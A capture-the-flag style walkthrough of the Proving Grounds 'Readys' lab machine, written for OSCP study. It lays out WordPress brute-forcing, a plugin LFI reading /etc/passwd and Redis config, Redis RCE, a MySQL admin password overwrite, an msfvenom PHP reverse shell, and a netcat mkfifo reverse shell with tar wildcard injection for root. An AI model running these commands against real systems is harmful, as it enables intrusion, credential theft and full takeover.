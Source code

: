 ```yaml
---
title: Readys Walkthrough - Proving grounds
tags: Redis Wildcard WordPress
categories: Linux
---
```

In this entry I will solve PG's Readys machine. It is an Linux machine in the [TJNull](https://docs.google.com/spreadsheets/u/1/d/1dwSMIAPIam0PuRBkCiDI88pU3yzrqqHkDtBngUHNCw8/htmlview) list. My purpose in sharing this post is to prepare for OSCP exam. It is also to show you the way if you are in trouble. Please try to understand each step and take notes.

# Port and service enum

`nmap -sC -sV -p22,80,6379 192.168.223.166 -Pn -o targeted.txt`

![c5391e4051b28caa4a2edecf56afeb50.png](https://github.com/v3l4r10/v3l4r10.github.io/blob/master/screenshots/Readys/c5391e4051b28caa4a2edecf56afeb50.png?raw=true234)

By visiting http[:]//192.168.223.166/ I find wordpress running so I run wpscan.

## Wordpress enumeration

`wpscan -e --url http[:]//192.168.223.166/`

![6b16ef438cdc9c202a84aab24c57591c.png](https://github.com/v3l4r10/v3l4r10.github.io/blob/master/screenshots/Readys/6b16ef438cdc9c202a84aab24c57591c.png?raw=true)

The website discloses the admin user. I try to bruteforce the user runing wpscan

`wpscan -e --url http[:]//192.168.223.166/wp-login.php -U admin -P /usr/share/wordlists/rockyou.txt`

## Redis enumeration

While the attack is running I check redis, I try to connect and get some info but authentication is required

`redis-cli -h 192.168.223.166`

![eae720747869812f3e7085d2ea0789d1.png](https://github.com/v3l4r10/v3l4r10.github.io/blob/master/screenshots/Readys/eae720747869812f3e7085d2ea0789d1.png?raw=true)

## Back to WP

Going back to the WordPress site, inspecting the source code I find SiteEditor plugin.

![6076885f10b4dcfbd3a4a4fa8223dc2f.png](https://github.com/v3l4r10/v3l4r10.github.io/blob/master/screenshots/Readys/6076885f10b4dcfbd3a4a4fa8223dc2f.png?raw=true)

I google for any exploit and I find a possible LFI https://www.exploit-db.com/exploits/44340

`[http[:]//192.168.223.166/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax\_shortcode\_pattern.php?ajax_path=/etc/passwd](http[:]//192.168.223.166/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax%5C_shortcode%5C_pattern.php?ajax_path=/etc/passwd)`

![768b40cdbb003c2ea7b4e4fdace55e0e.png](https://github.com/v3l4r10/v3l4r10.github.io/blob/master/screenshots/Readys/768b40cdbb003c2ea7b4e4fdace55e0e.png?raw=true)

## Back to redis

As redis is running, I try to read redis configuration file, under /etc/redis https://stackoverflow.com/questions/32284494/where-is-the-data-directory-in-redis.

`[http[:]//192.168.223.166/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax\_shortcode\_pattern.php?ajax_path=/etc/redis/redis.conf ](http[:]//192.168.223.166/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax%5C_shortcode%5C_pattern.php?ajax_path=/etc/redis/redis.conf )`


I find a possible username for Redis service

![d744357582946f7c99ae541cf13d1163.png](https://github.com/v3l4r10/v3l4r10.github.io/blob/master/screenshots/Readys/d744357582946f7c99ae541cf13d1163.png?raw=true)

By typing `AUTH Ready4Redis?` I  get the Redis version: 5.0.14.

![532c82325e1499468947b4b2d704e4bd.png](https://github.com/v3l4r10/v3l4r10.github.io/blob/master/screenshots/Readys/532c82325e1499468947b4b2d704e4bd.png?raw=true)

# Getting a shell

After googling for the version  I came out that this version is vulnerable to RCE . In this case I use the following [exploit](https://github.com/n0b0dyCN/redis-rogue-server). If fails try again :)

![7c570a5c9b43f3201629238e63a2bbf6.png](https://github.com/v3l4r10/v3l4r10.github.io/blob/master/screenshots/Readys/7c570a5c9b43f3201629238e63a2bbf6.png?raw=true)

I get a TTY through `python3 -c "import pty; pty.spawn('/bin/bash')".` After that I search for the mysql database credentials in `/var/www/html/wp-config.php`

![63258e92a72d7fe42dd95cb11f310676.png](https://github.com/v3l4r10/v3l4r10.github.io/blob/master/screenshots/Readys/63258e92a72d7fe42dd95cb11f310676.png?raw=true)

# MySQL

I connect to mysql and then I dump admin's credentials:

`mysql -u karl -p` Then paste the password found on wp-config.php

`show databases;`

`use wordpress;`

`select * from wp_users;`

![569b714daa20fc604f40c8e724b95821.png](https://github.com/v3l4r10/v3l4r10.github.io/blob/master/screenshots/Readys/569b714daa20fc604f40c8e724b95821.png?raw=true)
I try to crack the hash but I do not get any result, so I update admin's password in mysql databse, for that I use [wodpress hash generator](https://www.useotools.com/wordpress-password-hash-generator/.) tool

![bf64b842a1784c3b54a9d96863a1e8a9.png](https://github.com/v3l4r10/v3l4r10.github.io/blob/master/screenshots/Readys/bf64b842a1784c3b54a9d96863a1e8a9.png?raw=true)

By typing the desired password, the tool creates the mysql command to update the user's password. **Remember to rename your_user_name by 'admin' and add ";" **

``UPDATE `wp_users` SET `user_pass` = '``$P$`BxLKwoTitAjOYxf8iHcDrx0Z3ksN8v/' WHERE user_login = 'admin';`

![8228a5ec0cb9527c65914d3086843920.png](https://github.com/v3l4r10/v3l4r10.github.io/blob/master/screenshots/Readys/8228a5ec0cb9527c65914d3086843920.png?raw=true)

# WordPress Exploitation

After that I log in to the WordPress admin portal, with admin:admin

Go to Appearance -->Theme editor. (I am using twentytwenty template)

![4748cfa6680b70d337cf2ec9c3839b69.png](https://github.com/v3l4r10/v3l4r10.github.io/blob/master/screenshots/Readys/4748cfa6680b70d337cf2ec9c3839b69.png?raw=true)

Edit 404.php file and copy [pentestmonkey's reverse shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) or generate one with msfvenom:

msfvenom -p php/reverse_php LHOST=192.168.45.159 LPORT=88 -f raw > reverse.php

Then trigger the exploit by visiting `[http[:]//192.168.223.166/wp-content/themes/twentytwenty/404.php](http[:]//192.168.223.166/wp-content/themes/twentytwenty/404.php)`

# Privilege Escalation

After getting the shell I check crontab and a backup.sh file is running.

![6d43ef534744f360c62594fb2eb4963b.png](https://github.com/v3l4r10/v3l4r10.github.io/blob/master/screenshots/Readys/6d43ef534744f360c62594fb2eb4963b.png?raw=true)

Reading the backup file is seems that the script uses "tar" command

![f38f9eb8b8230c5bc6e76be24955b121.png](https://github.com/v3l4r10/v3l4r10.github.io/blob/master/screenshots/Readys/f38f9eb8b8230c5bc6e76be24955b121.png?raw=true)

### Wildcard for Privilege Escalation

The tar command in that script is using a wildcard to backup all files

First, I will create a reverse shell called "shell.sh" using netcat

`echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1| nc 10.10.10.10 4445 >/tmp/f" > shell.sh`

The following commands will create two empty files with the names: “–checkpoint-action=exec=sh shell.sh” and “–checkpoint=1”. These file names will be interpreted by Tar as switches when Tar attempts to bundle them. Once –checkpoint=1 is invoked tar will look for any possible actions to take. In this case that action will be to execute “sh shell.sh”.

`echo "" > "--checkpoint-action=exec=sh shell.sh"`

`echo "" > --checkpoint=1`

Finally, a netcat listener is created on the Kali machine on port 4445. Since the cronjob on the victim machine runs every two minutes the netcat listener will receive a connection within that amount of time and then spawn a shell as the root user.

Wait to the crontab and get the shell as root

![ef8bce19d64b5cc79ead44d0d007ed59.png](https://github.com/v3l4r10/v3l4r10.github.io/blob/master/screenshots/Readys/ef8bce19d64b5cc79ead44d0d007ed59.png?raw=true)

Pwn3d! :D
